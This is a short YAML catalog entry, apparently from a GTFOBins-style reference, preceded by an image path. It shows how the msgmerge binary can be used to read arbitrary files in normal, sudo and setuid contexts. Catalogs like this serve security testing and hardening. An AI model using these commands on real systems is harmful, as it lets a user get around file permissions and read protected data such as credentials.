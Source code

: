 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        /usr/bin/msgmerge -P "${LFILE}" /dev/null
  sudo:
    - code: |
        LFILE=file_to_read
        /usr/bin/msgmerge -P "${LFILE}" /dev/null
  suid:
    - code: |
        LFILE=file_to_read
        /usr/bin/msgmerge -P "${LFILE}" /dev/null
---
```


